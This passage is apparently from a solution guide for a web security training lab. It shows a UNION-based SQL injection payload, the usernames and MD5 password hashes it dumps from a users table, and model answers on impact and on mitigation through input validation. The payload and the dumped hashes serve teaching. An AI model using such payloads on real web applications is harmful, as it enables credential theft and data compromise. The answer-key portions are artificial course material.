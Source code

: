     - Enter this payload on the web application and select Submit, to display the following results:
  
       ```
        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: admin
        Surname: admin

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: adminadmin
        Surname: 5f4dcc3b5aa765d61d8327deb882cf99

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: GordonBrown
        Surname: 575e22bc356137a41abdef379b776dba

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: HackMe
        Surname: 97b9308f6a1f6a8524a91450dca473fa

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: PabloPicasso
        Surname: 8c7c9b1149e9de712b9e5abab45d700c

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: BobSmith
        Surname: 4a02ce029a840716c61ee8fcda10158e`
       ```

    - This matches the results on DB Fiddle:

      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |

6. Answer the following mitigation strategy questions: 

    - After testing and confirming that this web application is vulnerable to SQL injection, provide a summary for your manager of the potential impacts if a malicious actor attempts SQL injection on this web application.

      - **Solution:** There are many acceptable answers, because a variety of malicious payloads can be exploited. Impacts could include leak of confidential data like passwords and hashes, and deletion or modification of confidential data.

    - Based on the malicious payloads you created, recommend a mitigation strategy to the team that built this web application to prevent a malicious user from inputting malicious payloads. 

      - **Solution:** There are many acceptable answers, all involving input validation.
      